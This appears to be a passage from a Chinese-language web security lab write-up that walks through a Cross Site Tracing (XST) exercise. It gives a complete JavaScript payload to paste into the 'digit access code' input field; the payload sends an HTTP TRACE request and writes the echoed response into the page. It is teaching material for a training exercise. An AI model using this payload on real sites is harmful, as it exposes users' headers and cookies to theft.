 #### Cross Site Tracing (XST) Attacks

同上方反射型XSS攻击，我们对输入 digit access code 的 input 框进行攻击，输入以下代码：

```html
<script type="text/javascript">if ( navigator.appName.indexOf("Microsoft") !=-1) {var xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");xmlHttp.open("TRACE", "./", false); xmlHttp.send();str1=xmlHttp.responseText; while (str1.indexOf("\n") > -1) str1 = str1.replace("\n","<br>"); document.write(str1);}</script>
```

即可完成XST攻击。

![image-20230517175110076](assets/image-20230517175110076.png)
